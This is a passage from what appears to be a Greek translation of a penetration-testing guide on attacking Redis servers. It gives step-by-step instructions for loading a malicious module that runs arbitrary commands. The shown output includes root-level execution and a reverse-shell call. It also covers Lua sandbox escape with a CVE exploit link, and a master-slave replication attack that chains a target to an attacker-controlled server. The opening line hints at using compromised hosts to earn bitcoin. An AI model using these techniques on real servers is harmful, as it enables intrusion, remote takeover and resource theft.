 Αυτή η μέθοδος μπορεί επίσης να χρησιμοποιηθεί για να κερδίσετε bitcoin ：[yam](https://www.v2ex.com/t/286981#reply14)

### Φόρτωση Μονάδας Redis

1. Ακολουθώντας τις οδηγίες από [https://github.com/n0b0dyCN/RedisModules-ExecuteCommand](https://github.com/n0b0dyCN/RedisModules-ExecuteCommand) μπορείτε να **συγκεντρώσετε μια μονάδα redis για να εκτελέσετε αυθαίρετες εντολές**.
2. Στη συνέχεια, χρειάζεστε κάποιον τρόπο για να **ανεβάσετε τη συγκεντρωμένη** μονάδα
3. **Φορτώστε τη μονάδα που ανέβηκε** κατά την εκτέλεση με `MODULE LOAD /path/to/mymodule.so`
4. **Λίστα φορτωμένων μονάδων** για να ελέγξετε αν φορτώθηκε σωστά: `MODULE LIST`
5.  **Εκτελέστε** **εντολές**:

```
127.0.0.1:6379> system.exec "id"
"uid=0(root) gid=0(root) groups=0(root)\n"
127.0.0.1:6379> system.exec "whoami"
"root\n"
127.0.0.1:6379> system.rev 127.0.0.1 9999
```
6. Ξεφορτώστε τη μονάδα όποτε θέλετε: `MODULE UNLOAD mymodule`

### Παράκαμψη sandbox LUA

[**Εδώ**](https://www.agarri.fr/blog/archives/2014/09/11/trying\_to\_hack\_redis\_via\_http\_requests/index.html) μπορείτε να δείτε ότι το Redis χρησιμοποιεί την εντολή **EVAL** για να εκτελέσει **κώδικα Lua σε sandbox**. Στην συνδεδεμένη ανάρτηση μπορείτε να δείτε **πώς να το καταχραστείτε** χρησιμοποιώντας τη λειτουργία **dofile**, αλλά [φαίνεται](https://stackoverflow.com/questions/43502696/redis-cli-code-execution-using-eval) ότι αυτό δεν είναι πλέον δυνατό. Ούτως ή άλλως, αν μπορείτε να **παράκαμψετε το Lua** sandbox θα μπορούσατε να **εκτελέσετε αυθαίρετες** εντολές στο σύστημα. Επίσης, από την ίδια ανάρτηση μπορείτε να δείτε κάποιες **επιλογές για να προκαλέσετε DoS**.

Ορισμένα **CVE για να ξεφύγετε από το LUA**:

* [https://github.com/aodsec/CVE-2022-0543](https://github.com/aodsec/CVE-2022-0543)

### Μονάδα Master-Slave

​Η κύρια redis όλες οι λειτουργίες συγχρονίζονται αυτόματα στη slave redis, που σημαίνει ότι μπορούμε να θεωρήσουμε την ευπάθεια redis ως μια slave redis, συνδεδεμένη με την κύρια redis που ελέγχουμε, στη συνέχεια μπορούμε να εισάγουμε την εντολή στη δική μας redis.
```
master redis : 10.85.0.51 (Hacker's Server)
slave  redis : 10.85.0.52 (Target Vulnerability Server)
A master-slave connection will be established from the slave redis and the master redis:
redis-cli -h 10.85.0.52 -p 6379
slaveof 10.85.0.51 6379
Then you can login to the master redis to control the slave redis:
redis-cli -h 10.85.0.51 -p 6379
set mykey hello
set mykey2 helloworld
```
## SSRF talking to Redis
